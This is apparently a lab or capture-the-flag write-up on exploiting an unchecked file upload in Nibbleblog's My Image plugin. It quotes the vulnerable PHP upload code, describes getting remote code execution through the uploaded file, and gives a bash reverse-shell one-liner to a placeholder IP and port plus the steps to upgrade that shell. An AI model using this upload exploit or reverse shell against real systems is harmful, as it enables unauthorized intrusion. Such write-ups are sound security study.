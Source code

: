 Using the plugin to upload our php shell we can use a programming mistake that wasn't implemented into the source code for the plugin. There was no check for the extension so anybody with access to the `My Image` page could uploaded any sort of file extensions. 
As we see in the source code the `$extension` has the value of the uploaded file of extension, but is never checked before uploading the file on the server.
```php
if( $plugin->init_db() ) { 
  // upload files 
  foreach($_FILES as $field_name=>$file) { 
    $extension = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION)); 
    $destination = PATH_PLUGINS_DB.$plugin->get_dir_name(); 
    $complete = $destination.'/'.$field_name.'.'.$extension; 

    // Upload the new file and move 
    if(move_uploaded_file($file["tmp_name"], $complete)) { 
      // Resize images if requested by the plugin 
      if(isset($_POST[$field_name.'_resize'])) { 
        $width = isset($_POST[$field_name.'_width'])?$_POST[$field_name.'_width']:200; 
        $height = isset($_POST[$field_name.'_height'])?$_POST[$field_name.'_height']:200; 
        $option = isset($_POST[$field_name.'_option'])?$_POST[$field_name.'_option']:'auto'; 
        $quality = isset($_POST[$field_name.'_quality'])?$_POST[$field_name.'_quality']:100;
        $Resize->setImage($complete, $width, $height, $option); 
        $Resize->saveImage($complete, $quality, true); 
      } 
    } 
  } 

  unset($_POST['plugin']); 

  // update fields $plugin->set_fields_db($_POST);
  Session::set_alert($_LANG['CHANGES_HAS_BEEN_SAVED_SUCCESSFULLY']); } }
```

By accessing ( http://localhost/nibbleblog/content/private/plugins/my_image/image.php )the uploaded file over the provided url you could get remote code execution via php code. You can use php-reverse shell and upload it to the my_image plugin.


With the help of the php code we can get a reverse shell to make it easier to find any privilege escalations. With the following code we get a usable reverse shell.
```bash
# to pass in the php code
$ bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

# In the reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ export SHELL=bash
$ export TERM=xterm-256color
$ [CTRL + Z] # Background process
$ stty raw -echo
$ fg # foreground reverse shell process
$ stty rows <ROWS> columns <Columns> 
```
